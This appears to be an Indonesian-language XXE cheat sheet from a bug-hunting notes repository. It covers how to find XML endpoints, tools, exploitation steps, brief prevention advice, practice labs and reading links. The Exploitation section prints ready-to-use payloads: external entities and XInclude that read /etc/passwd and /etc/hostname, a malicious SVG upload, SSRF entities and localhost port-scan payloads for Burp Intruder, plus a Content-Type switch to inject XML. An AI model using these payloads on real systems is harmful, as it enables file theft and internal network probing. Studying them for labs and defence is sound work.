 # XXE :kiss:

<p align="center"><img src="https://user-images.githubusercontent.com/52058660/90031186-25536580-dce7-11ea-9da9-dcc9b4473bf7.jpg" width="500"></p>

Sebelum memahami XXE, maka kita harus memiliki pengetahuan dasar XML, DTD dan entity. Tools yang digunakan adalah Burpsuite, lebih mantap lagi jika menggunakan Burp Collaborator (*berbayar*).
## Detection
  - [Cari](https://christian-schneider.net/GenericXxeDetection.html) aplikasi yang mengirimkan data dalam format XML (XML endpoint)
  - Cari web page yang request header `Content-Type`-nya adalah `text/xml` atau `application/xml`
  - Cari web service yang mengunakan XML seperti RSS, SOAP
  - Cari file upload function
  - Cara cepat menemukan XML endpoint adalah automasi
  
## Tools
  - Burpsuite
  - [xxeserve](https://github.com/joernchen/xxeserve)
  
## Exploitation
  - Retrieve Files. Inject [payload](https://github.com/payloadbox/xxe-injection-payload-list) ke bagian `!DOCTYPE`
    ```
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM “file:///etc/passwd”> ]>
    ```
  - Exploiting to perform Server Side Request Forgery (SSRF). Sama seperti cara di atas tapi protokol yang digunakan adalah `http` dilanjutkan dengan ip server target
    ```
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM “http://XXX.XXX.XXX.XXX”> ]>
    ```
  - Gunakan `XInclude` jika tidak bisa memodifikasi `!DOCTYPE`. Harap baca SOAP dan XML namespace untuk pemahaman lebih lanjut. 
    ```
    <foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
    ```
  - Exploiting via file upload. Caranya adalah dengan membuat file SVG yang mengandung exploit xxe
    ```
    <?xml version="1.0" standalone="yes"?>
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
    <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
    </svg>
    ```
  - *Blind XXE vulnerabilities arise where the application is vulnerable to XXE injection but does not return the values of any defined external entities within its responses*. Sangat manjur jika menggunakan Burp Collaborator.
  

  - Modifikasi `content-type` pada POST request header.  Ketika respons adalah `200 OK` dan menghasilkan nilai yang sama, maka kita bisa menyelipkan payload pada requesnya
      ```
      POST /action HTTP/1.0
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 7
      foo=bar
      ```
    dimodif dong
      ```    
      POST /action HTTP/1.0
      Content-Type: text/xml
      Content-Length: 52
      <?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
      ```
  - Test local machine port (gunakan burp intruder). Brute port dari ip local, lalu cek bergantian `http` dan `https`
    ```
    <!DOCTYPE xxe SYSTEM "http://127.0.0.1:§port§/">
    <!DOCTYPE xxe SYSTEM "https://127.0.0.1:§port§/">
    ```
  - Exploiting [RSS validator](https://taind.wordpress.com/2017/12/25/root-me-xml-external-entity/). jika tidak punya server sendiri untuk upload file XML, gunakan [filebin](https://filebin.net/)

## Prevention
  - Disable DTD
  - Disable entity saja
  - Dissable XInclude
  
## Tips and Trics
  - Switch `content-type` menjadi `text/xml` atau `application/xml` lalu analisa respon errornya
  - Gunakan Burp Collaborator untuk detect blind XXE atau, gunakan remote server untuk mendeteksi blind XEE
  - Cari API endpoint
  - Umumnya web request xml menggunakan `Content-Type: application/x-www-form-urlencoded` coba modifikasi menjadi `text/xml` atau `application/xml`

## Lab
  - [Portswigger Web Security Academy - XXE injection](https://portswigger.net/web-security/xxe)
  - [Vulnhub - XXE Lab: 1](https://www.vulnhub.com/entry/xxe-lab-1,254/)
  - [Play XML Entities](https://pentesterlab.com/exercises/play_xxe/course)

## Online Resource
  - [Blind XXE - Hunting in the Dark](https://blog.zsec.uk/blind-xxe-learning/)
  - [XML External Entities ft. JohnHammond](https://www.youtube.com/watch?v=gjm6VHZa_8s&t=497s)
  - [From blind XXE to root-level file read access](https://honoki.net/2018/12/12/from-blind-xxe-to-root-level-file-read-access/)
  - [How we got read access on Google’s production servers](https://blog.detectify.com/2014/04/11/how-we-got-read-access-on-googles-production-servers/)
  - [Identifying Xml eXternal Entity vulnerability (XXE)](https://blog.h3xstream.com/2014/06/identifying-xml-external-entity.html)
  - [List of XML markup languages](https://en.wikipedia.org/wiki/List_of_XML_markup_languages)
  - [Finding and Exploiting XXE – XML External Entities Injection](https://resources.infosecinstitute.com/finding-and-exploiting-xxe-xml-external-entities-injection/#gref)
  - [Generic XXE Detection](https://christian-schneider.net/GenericXxeDetection.html)
  - [Advice From A Researcher: Hunting XXE For Fun and Profit](https://www.bugcrowd.com/blog/advice-from-a-bug-hunter-xxe/)


